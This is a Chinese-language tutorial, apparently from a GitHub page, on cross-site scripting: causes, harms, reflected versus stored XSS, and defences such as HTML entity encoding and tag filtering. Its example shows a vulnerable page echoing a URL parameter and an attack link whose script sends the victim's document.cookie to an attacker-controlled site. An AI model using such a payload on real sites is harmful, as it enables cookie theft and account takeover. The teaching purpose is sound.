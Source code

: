 ### 什么是XSS

XSS，全称跨站脚本(cross site scripting),是一种注入式的攻击方式

### XSS成因

* 对于用户的输入没有严格控制而直接输出到页面
* 对非预期输入的信任

### XSS的危害

* 盗取各类用户账号
* 窃取数据
* 非法转账
* 挂马
* ...

### 举例

假设当我登录a.com后，我发现它的页面某些内容是根据url中的一个叫content参数直接显示的，猜测它的页面处理可能是这样，其它语言类似： 

```html

<html>
<head>
<title>XSS测试</title>
</head>
<body>
<%=request.getParameter("content")%> //看这里看这里，意思就是在页面输出content参数的内容，如果不做任何屏蔽，会有什么结果呢？
</body>

</html>
```

假设我知道了小明也注册了该网站，并且知道了他的邮箱(或者其它联系方式)，我做一个超链接发给他，超链接地址为：http://www.a.com?content=<script>window.open(“www.b.com?param=”+document.cookie)</script>，当小明点击这个链接的时候(假设他已经登录a.com)，浏览器就会直接打开b.com，并且把小明在a.com中的cookie信息发送到b.com，b.com是我搭建的网站，当我的网站接收到该信息时，我就盗取了小明在a.com的cookie信息，cookie信息中可能存有登录密码，攻击成功！

### XSS的攻击方式

分为`反射型`和`存储型`

##### 反射型

发出请求时，XSS代码出现在url中，作为输入提交到服务器端，服务器端解析后响应。XSS代码随相应内容一起传回给浏览器，浏览器解析后执行。整个过程像一次反射，故称为反射型XSS。

##### 存储型

存储型与反射型的区别在于，提交的代码会存储于服务端（数据库，文件系统，内存），下次提交代码时不用再提交XSS代码。

### XSS的防御措施

主要是做好**转义**和**过滤**

`主要防御手段，还是在后台对前端传的字符串进行转义(html_encode),成熟的库有xss；辅之对标签名，属性等进行过滤；当然，前端也能做`

#####  编码 ： 对用户输入数据进行HTMl Entity编码

字符 | 十进制 | 转义字符
-- | --- | --
"" | &#34; | &quot;
& | &#38; | &amp;
< | &#60; | &lt;
> | &#62; | &gt;
空格 | &#160; | &nbsp;

##### 过滤

移除用户上传的DOM属性，如onerror等等；

移除用户上传的style节点，script节点，Iframe节点等等。

##### 校正

避免直接对HTML Entity解码；

使用Dom Parse转换，校正不配对的DOM标签

